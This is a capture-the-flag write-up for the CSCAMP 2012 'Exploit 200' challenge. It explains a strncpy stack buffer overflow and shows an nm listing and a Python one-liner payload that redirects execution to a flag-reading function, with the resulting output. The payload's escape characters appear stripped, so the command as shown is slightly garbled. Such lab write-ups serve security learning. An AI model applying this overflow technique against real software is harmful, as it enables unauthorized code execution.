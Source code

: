 ```yaml
---
title: "CSCAMP CTF 2012 - Exploit 200"
tags:
  - cscamp2012
  - writeup
  - pwn
---
```


This binary is vulnerable to a buffer overflow in the strncpy function called in
the main function with user supplied input. It takes in two arguments, argument
1 being the offset of the address on the stack of the value to copy data from,
and argument 2 being the number of bytes to copy. The size of the buffer being
copied to is a maximum of 280 bytes. Since the binary has a function containing
a call to system("cat key.txt"), we may simply replace the saved frame pointer
with the function address.

```shell
amon@Alyx:~/cscamp/exp200$ nm level200
0000000000600e40 d _DYNAMIC
...
0000000000400654 T cat_key
...
0000000000400669 T main
...
U system@@GLIBC_2.2.5
```

Our address is 0x0000000000400654. We may craft the exploit now, knowing the
offset of the saved frame pointer (%RSP+280), and the address of our cat_key. We
simply need to copy more than 288 bytes (we choose 300 arbitrarily) from the 3rd
argument offset in the stack, i.e. our third argument we pass.

```shell
amon@Alyx:~/cscamp/exp200$ ./level200 3 300 `python -c 'print "A"*280 +
"x54x06x40x00x00x00x00x00"'`
You entred :
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAT@
cat: ./key.txt: No such file or directory
Segmentation fault
amon@Alyx:~/cscamp/exp200$
```
